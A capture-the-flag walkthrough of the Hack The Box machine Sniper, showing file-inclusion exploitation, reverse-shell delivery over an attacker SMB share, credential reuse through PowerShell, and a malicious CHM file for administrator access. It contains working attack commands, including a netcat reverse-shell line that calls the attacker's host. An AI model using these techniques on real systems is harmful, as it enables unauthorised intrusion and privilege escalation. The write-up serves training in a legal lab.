`Box: Windows`
`Level: Medium`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Enum`](#`Initial%20Nmap%20Enum`)
3. [[#`Web Enumeration`]] 
4. [`Web Enumeration`](#`Web%20Enumeration`)
	1. [`Burp Suite to crawl site`](#`Burp%20Suite%20to%20crawl%20site`)
	2. [`Local File Inclusion`](#`Local%20File%20Inclusion`)
	3. [`Trying to load shell and failed using python server`](#`Trying%20to%20load%20shell%20and%20failed%20using%20python%20server`)
	4. [`Using SMB Server to Deliver Shell`](#`Using%20SMB%20Server%20to%20Deliver%20Shell`)
5. [`Upgrading Shell Without SSH/Evil-Winrm/wmiexec`](#`Upgrading%20Shell%20Without%20SSH/Evil-Winrm/wmiexec`)
	1. [`netexec to validate password`](#`netexec%20to%20validate%20password`)
	2. [`rpcclient using credentials`](#`rpcclient%20using%20credentials`)
6. [`PowerShell To Elevate Shell`](#`PowerShell%20To%20Elevate%20Shell`)
	1. [`PowerShell to Switch User Session`](#`PowerShell%20to%20Switch%20User%20Session`)
7. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`Malicious CHM File`](#`Malicious%20CHM%20File`)
8. [`Beyond Root`](#`Beyond%20Root`)
	1. [`Schedule Task Windows`](#`Schedule%20Task%20Windows`)
	2. [`Enabled All Privileges`](#`Enabled%20All%20Privileges`)
	3. [`Abusing SeTakeOwnershipPrivilege Privilege`](#`Abusing%20SeTakeOwnershipPrivilege%20Privilege`)
### `Box Info`
```
Sniper is a medium difficulty Windows machine which features a PHP server. The server hosts a file that is found vulnerable to local and remote file inclusion. Command execution is gained on the server in the context of `NT AUTHORITY\iUSR` via local inclusion of maliciously crafted PHP Session files. Exposed database credentials are used to gain access as the user `Chris`, who has the same password. Enumeration reveals that the administrator is reviewing CHM (Compiled HTML Help) files, which can be used the leak the administrators NetNTLM-v2 hash. This can be captured, cracked and used to get a reverse shell as administrator using a PowerShell credential object.
```
### `Initial Nmap Enum`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.151
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Sniper Co.
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
```
### `Web Enumeration`

`http://10.10.10.151/user/login.php`


The `SignUp` allowed to register and than login. But when you login, the dashboard is in maintenance mode.


###### `Burp Suite to crawl site`
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.1
Date: Wed, 23 Oct 2024 09:09:44 GMT
Content-Length: 2635
```
###### `Local File Inclusion`
One of the endpoint is vulnerable to LFI.
```
┌──(root㉿kali)-[/home/…/Downloads/Tools/LFImap/lfimap]
└─# python lfimap.py  -U 'http://10.10.10.151/blog/?lang=' -a -wT /usr/share/wordlists/Wordlist_From_Github/LFI_Windows_UNIX_Wordlist.txt 

[i] Testing GET 'lang' parameter...
[+] LFI -> 'http://10.10.10.151/blog/?lang=%5c%57%49%4e%44%4f%57%53%5c%77%69%6e%2e%69%6e%69'
```
Using the lfimap, I was able to find out the endpoint which is vulnerable to LFI. Upon decoding the above payload, I got the following result.
```
[+] LFI -> 'http://10.10.10.151/blog/?lang=%5c%57%49%4e%44%4f%57%53%5c%77%69%6e%2e%69%6e%69'
[+] LFI -> 'http://10.10.10.151/blog/?lang=\WINDOWS\win.ini
```

###### `Trying to load shell and failed using python server`
now let's prepare a php shell. I got the PHP Ivan Sincek Shell from the https://www.revshells.com/ and saved it on my kali as `shell.php`
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Sniper.htb]
└─# ls
shell.php  test.txt
```

Here's the last portion of my shell look like


Since the payload accepts as URL encoded, I will not start the simple Python HTTP Server and try to load the shell.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Sniper.htb]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

Encoding the payload




After sending the request, Looking at the Python HTTP Server Logs, We see nothing.


###### `Using SMB Server to Deliver Shell`
Since this is not working, I now try SMB Share to execute my shell. Starting `impacket-smbserver`


Encoding the payload


Now sending this payload and starting the netcat listener on port 4444.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Sniper.htb]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49722
SOCKET: Shell has connected! PID: 4960
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
iis apppool\defaultapppool
```

Looking at the SMB Logs


We got the shell as `iis apppool\defaultapppool`.
### `Upgrading Shell Without SSH/Evil-Winrm/wmiexec`

After getting the initial shell, while surfing the box with `iis apppool\defaultapppool` user privileges, I notice a file `db.php` which reveals a credentials.
```
C:\inetpub\wwwroot\user>type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>

C:\>cd Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users

04/11/2019  07:04 AM    <DIR>          .
04/11/2019  07:04 AM    <DIR>          ..
04/09/2019  06:47 AM    <DIR>          Administrator
04/11/2019  07:04 AM    <DIR>          Chris
04/09/2019  06:47 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)               0 bytes free

C:\Users>cd Chris
Access is denied.
```

Also the access were denied to the user directory. 

###### `netexec to validate password`
```
┌──(root㉿kali)-[/home/ringbuffer]
└─# netexec smb 10.10.10.151 -u 'chris' -p '36mEAhz/B8xQ~2VM' --shares 
SMB         10.10.10.151    445    SNIPER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\chris:36mEAhz/B8xQ~2VM 
SMB         10.10.10.151    445    SNIPER           [*] Enumerated shares
SMB         10.10.10.151    445    SNIPER           Share           Permissions     Remark
SMB         10.10.10.151    445    SNIPER           -----           -----------     ------
SMB         10.10.10.151    445    SNIPER           ADMIN$                          Remote Admin
SMB         10.10.10.151    445    SNIPER           C$                              Default share
SMB         10.10.10.151    445    SNIPER           IPC$            READ            Remote IPC
```

So the same password is used by the user `Chris` But for this box, there was no `Evil-Winrm` or `impacket-wmiexec` working. So I have Chris's password but no shell access. I was able to access `smbclient -U 'Sniper/Chris%36mEAhz/B8xQ~2VM' //10.10.10.151/IPC$` but it was not revealing anything. The share was empty. 

###### `rpcclient using credentials`
Let's try rpcclient. Posting some of the rpcclient output here.
```
┌──(root㉿kali)-[/home/ringbuffer]
└─# rpcclient -U "Sniper/Chris%36mEAhz/B8xQ~2VM" 10.10.10.151
rpcclient $> getusername
Account Name: Chris, Authority Name: SNIPER

rpcclient $> getpwuid  # Get shell and homedir
do_cmd: Could not initialise unixinfo. Error was NT_STATUS_OBJECT_NAME_NOT_FOUND

rpcclient $> srvinfo
        10.10.10.151   Wk Sv NT SNT         
        platform_id     :       500
        os version      :       10.0
        server type     :       0x9003

```

nothing interesting can be extracted with the `rpcclient` shell. 

### `PowerShell To Elevate Shell`

###### `PowerShell to Switch User Session`
This is the important one. **You have a credentials that you know is working for user Chris. You can open powershell.exe as a `iis apppool\defaultapppool` User. You will use the PowerShell.exe to switch User Shell**
```
PS C:\inetpub\wwwroot\blog> $username = 'Sniper\Chris'
PS C:\inetpub\wwwroot\blog> $password = '36mEAhz/B8xQ~2VM'                             
PS C:\inetpub\wwwroot\blog> $password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\inetpub\wwwroot\blog> $cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username,$password
PS C:\inetpub\wwwroot\blog> Invoke-Command -ScriptBlock {whoami} -Credential $cred -Computer localhost
sniper\chris
PS C:\inetpub\wwwroot\blog> whoami
iis apppool\defaultapppool
```
Okay so I was able to run just `whoami` command as user Chris. Now let's grab a shell for the user `Chris` But before that, we can verify that the user `Chris` is part of the `Remote Management Users` Group using the following command to get a shell as that user.
```
PS C:\inetpub\wwwroot\blog> net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable          4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/24/2024 6:43:48 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

Start the NetCat Listener on Port 4444 again and run the following command.
```
PS C:\inetpub\wwwroot\blog> Invoke-Command -ScriptBlock {\\10.10.14.2\a\nc64.exe -e cmd.exe 10.10.14.2 4444} -Credential $cred -Computer localhost
```

On the NetCat Side.
```
# nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49734
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris
```
Get your user flag
### `Privilege Escalation`

When I was trying to upload `winpeas`, I was somehow getting Limited Disk Usage error. So i decided to perform manual enumeration.
Some of the Interesting directories I found.
```
PS C:\> dir
    Directory: C:\
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/25/2024   3:46 AM                Docs     

PS C:\Docs> dir
dir
    Directory: C:\Docs
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   9:31 AM            285 note.txt                                                              
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf  
```

```
PS C:\Docs> type note.txt
type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

```
PS C:\Users\Chris\Downloads> dir
dir

    Directory: C:\Users\Chris\Downloads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   8:36 AM          10462 instructions.chm                                                      
```

Looking at the `instructions.chm` files, I opened it on my Windows machine


Looks like we can generate the `*.chm` and put it into `C:\Docs`. As CEO is checking it I am assuming that it gonna check by CEO at some point that give us the shell
###### `Malicious CHM File`
The *.chm* file is a Compiled HTML Files which is a Microsoft's Proprietary online help format document. We are going to create one malicious *.chm* file and get it on `C:\Docs`
For that We will need to download Html Help.exe from [This Link](https://web.archive.org/web/20160201063255if_/https://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe) **The link here directly downloads the file so check you local machine**. Following to that Install it. I have already installed it. Now We need `Out-CHM.ps1` from Nishang. Get [Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1). Now we can generate the malicious *.chm* file as follows

I had to generate this one on my Windows Machine.
Now Get this malicious *.chm* file Located at `C:\Your_Path\doc.chm` to the Sniper.htb under `C:\Docs`.

```
PS C:\Docs> copy \\10.10.14.2\a\doc.chm .
copy \\10.10.14.2\a\doc.chm .
```

Start the Listener on port 5555 and wait for like 2 minutes.

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49690
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator

```
Get your Root Flag

### `Beyond Root`

One of the point that stuck in my mind is that why putting the malicious *.chm* into `C:\Docs` would generate the reverse shell ? Initially I thought that there must be some sort of schedule task that Administrator is running and the user `Chris` might not have the enough access rights to looked into the list of schedule task setup by the Administrator. But when I got the Admin Shell, I checked out.
###### `Schedule Task Windows`
```
C:\Users\Administrator\Desktop>schtasks /query /v /fo LIST
schtasks /query /v /fo LIST
<!.....Snipped Output......!>

```

Stripped down version of the above command which is going to list just a full path of the process.
```
C:\Users\Administrator\Desktop>schtasks /query /v /fo LIST | findstr /c:"Task To Run" | findstr /v /c:"Task To Run:                          COM handler"
schtasks /query /v /fo LIST | findstr /c:"Task To Run" | findstr /v /c:"Task To Run:                          COM handler"
Task To Run:                          C:\Windows\system32\msfeedssync.exe sync
Task To Run:                          %windir%\system32\srvinitconfig.exe /disableconfigtask
Task To Run:                          %windir%\system32\appidpolicyconverter.exe 
<!-----------Snipped -----------!>
```

I couldn't find any interesting schedule tasks that points to why the *.chm* file is running and getting us the shell. Let's dive into Process

```
PS C:\Users\Administrator\Desktop> Get-WmiObject Win32_Process | Select-Object ProcessId, ProcessName, CommandLine, pid
Get-WmiObject Win32_Process | Select-Object ProcessId, ProcessName, CommandLine, pid
     6704 cmd.exe                 C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsoft\...
     6752 cmd.exe                 C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsoft\...
     6848 notepad.exe             "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Microsof...
     6880 powershell.exe          powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Window...

```

The above list of process caught my attention so I try to grab the full path of those process.
```
PS C:\Users\Administrator\Desktop> Get-WmiObject Win32_Process | Where {$_.ProcessId -eq 6708 -or $_.ProcessId -eq 6752 -or $_.ProcessId -eq 6848 -or $_.ProcessId -eq 6880}
Get-WmiObject Win32_Process | Where {$_.ProcessId -eq 6708 -or $_.ProcessId -eq 6752 -or $_.ProcessId -eq 6848 -or $_.ProcessId -eq 6880}

__GENUS                    : 2
__CLASS                    : Win32_Process
__SUPERCLASS               : CIM_Process
__DYNASTY                  : CIM_ManagedSystemElement
__RELPATH                  : Win32_Process.Handle="6752"
__PROPERTY_COUNT           : 45
__DERIVATION               : {CIM_Process, CIM_LogicalElement, CIM_ManagedSystemElement}
__SERVER                   : SNIPER
__NAMESPACE                : root\cimv2
__PATH                     : \\SNIPER\root\cimv2:Win32_Process.Handle="6752"
Caption                    : cmd.exe
CommandLine                : C:\Windows\system32\cmd.exe /c 
                             ""C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start 
                             Menu\Programs\Startup\run.bat" "
CreationClassName          : Win32_Process
CreationDate               : 20241025030653.366106-420
CSCreationClassName        : Win32_ComputerSystem
CSName                     : SNIPER
Description                : cmd.exe
ExecutablePath             : C:\Windows\system32\cmd.exe
ExecutionState             : 
Handle                     : 6752
HandleCount                : 73
InstallDate                : 
KernelModeTime             : 0
MaximumWorkingSetSize      : 1380
MinimumWorkingSetSize      : 200
Name                       : cmd.exe
OSCreationClassName        : Win32_OperatingSystem
OSName                     : Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
OtherOperationCount        : 274
OtherTransferCount         : 3912
PageFaults                 : 1212
PageFileUsage              : 2732
ParentProcessId            : 5224
PeakPageFileUsage          : 4784
PeakVirtualSize            : 2203379003392
PeakWorkingSetSize         : 4272
Priority                   : 8
PrivatePageCount           : 2797568
ProcessId                  : 6752
QuotaNonPagedPoolUsage     : 5
QuotaPagedPoolUsage        : 43
QuotaPeakNonPagedPoolUsage : 6
QuotaPeakPagedPoolUsage    : 43
ReadOperationCount         : 2
ReadTransferCount          : 119
SessionId                  : 1
Status                     : 
TerminationDate            : 
ThreadCount                : 1
UserModeTime               : 0
VirtualSize                : 2203376906240
WindowsVersion             : 10.0.17763
WorkingSetSize             : 4370432
WriteOperationCount        : 0
WriteTransferCount         : 0
PSComputerName             : SNIPER
ProcessName                : cmd.exe
Handles                    : 73
VM                         : 2203376906240
WS                         : 4370432
Path                       : C:\Windows\system32\cmd.exe

__GENUS                    : 2
__CLASS                    : Win32_Process
__SUPERCLASS               : CIM_Process
__DYNASTY                  : CIM_ManagedSystemElement
__RELPATH                  : Win32_Process.Handle="6848"
__PROPERTY_COUNT           : 45
__DERIVATION               : {CIM_Process, CIM_LogicalElement, CIM_ManagedSystemElement}
__SERVER                   : SNIPER
__NAMESPACE                : root\cimv2
__PATH                     : \\SNIPER\root\cimv2:Win32_Process.Handle="6848"
Caption                    : notepad.exe
CommandLine                : "C:\Windows\System32\notepad.exe" 
                             "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start 
                             Menu\Programs\Startup\sig.ps1"
CreationClassName          : Win32_Process
CreationDate               : 20241025030653.942320-420
CSCreationClassName        : Win32_ComputerSystem
CSName                     : SNIPER
Description                : notepad.exe
ExecutablePath             : C:\Windows\System32\notepad.exe
ExecutionState             : 
Handle                     : 6848
HandleCount                : 228
InstallDate                : 
KernelModeTime             : 312500
MaximumWorkingSetSize      : 1380
MinimumWorkingSetSize      : 200
Name                       : notepad.exe
OSCreationClassName        : Win32_OperatingSystem
OSName                     : Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
OtherOperationCount        : 132
OtherTransferCount         : 3178
PageFaults                 : 4126
PageFileUsage              : 2484
ParentProcessId            : 5224
PeakPageFileUsage          : 3024
PeakVirtualSize            : 2203490762752
PeakWorkingSetSize         : 15656
Priority                   : 8
PrivatePageCount           : 2543616
ProcessId                  : 6848
QuotaNonPagedPoolUsage     : 13
QuotaPagedPoolUsage        : 251
QuotaPeakNonPagedPoolUsage : 14
QuotaPeakPagedPoolUsage    : 260
ReadOperationCount         : 1
ReadTransferCount          : 60
SessionId                  : 1
Status                     : 
TerminationDate            : 
ThreadCount                : 1
UserModeTime               : 156250
VirtualSize                : 2203483754496
WindowsVersion             : 10.0.17763
WorkingSetSize             : 15978496
WriteOperationCount        : 0
WriteTransferCount         : 0
PSComputerName             : SNIPER
ProcessName                : notepad.exe
Handles                    : 228
VM                         : 2203483754496
WS                         : 15978496
Path                       : C:\Windows\System32\notepad.exe

__GENUS                    : 2
__CLASS                    : Win32_Process
__SUPERCLASS               : CIM_Process
__DYNASTY                  : CIM_ManagedSystemElement
__RELPATH                  : Win32_Process.Handle="6880"
__PROPERTY_COUNT           : 45
__DERIVATION               : {CIM_Process, CIM_LogicalElement, CIM_ManagedSystemElement}
__SERVER                   : SNIPER
__NAMESPACE                : root\cimv2
__PATH                     : \\SNIPER\root\cimv2:Win32_Process.Handle="6880"
Caption                    : powershell.exe
CommandLine                : powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start 
                             Menu\Programs\Startup\sig.ps1"
CreationClassName          : Win32_Process
CreationDate               : 20241025030654.398154-420
CSCreationClassName        : Win32_ComputerSystem
CSName                     : SNIPER
Description                : powershell.exe
ExecutablePath             : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ExecutionState             : 
Handle                     : 6880
HandleCount                : 380
InstallDate                : 
KernelModeTime             : 7968750
MaximumWorkingSetSize      : 1380
MinimumWorkingSetSize      : 200
Name                       : powershell.exe
OSCreationClassName        : Win32_OperatingSystem
OSName                     : Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
OtherOperationCount        : 9074
OtherTransferCount         : 201008
PageFaults                 : 45711
PageFileUsage              : 140536
ParentProcessId            : 6752
PeakPageFileUsage          : 140536
PeakVirtualSize            : 2204026437632
PeakWorkingSetSize         : 173920
Priority                   : 8
PrivatePageCount           : 143908864
ProcessId                  : 6880
QuotaNonPagedPoolUsage     : 25
QuotaPagedPoolUsage        : 466
QuotaPeakNonPagedPoolUsage : 30
QuotaPeakPagedPoolUsage    : 486
ReadOperationCount         : 119
ReadTransferCount          : 350537
SessionId                  : 1
Status                     : 
TerminationDate            : 
ThreadCount                : 8
UserModeTime               : 5781250
VirtualSize                : 2204018126848
WindowsVersion             : 10.0.17763
WorkingSetSize             : 178089984
WriteOperationCount        : 2
WriteTransferCount         : 162
PSComputerName             : SNIPER
ProcessName                : powershell.exe
Handles                    : 380
VM                         : 2204018126848
WS                         : 178089984
Path                       : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

```

Okay so there's following two things
`C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\\Programs\Startup\run.bat`
`C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\sig.ps1`

There's one `.bat` file and `.ps` file.

```
PS C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> type sig.ps1
type sig.ps1
while($true) {
    get-process | where name -eq hh | Stop-Process -force
    sleep 2
    del C:\Docs\*.chm
    sleep 20
    Get-ChildItem "C:\Docs" -Filter *.chm | Foreach-Object {
        $sig =  [char[]](gc $_.FullName -Encoding Byte -ReadCount 1 -TotalCount 2) -join ''
        if($sig -eq 'IT') {
                write "entre"
                hh.exe $_.FullName
        }
        else {
                write "boo"
        }
    }
    sleep 10
}
```

The `Get-Process` Commands greps the list of process with the name `hh` and stops it.
than it sleeps for 2 seconds.
Than it deltes *.chm* file from `C:\Docs`
Than again it sleeps for 20 seconds. 
Than it finds all the *.chm* files from the `C:\Docs` and loop over each *.chm* file.
	It reads the *.chm* file.
	 Check if $sig is IT. If so, prints a message and runs hh.exe [File]. Else prints a message
	 Sleeps for 10 seconds.

Now Let's take a look at the `*.bat` file.
```
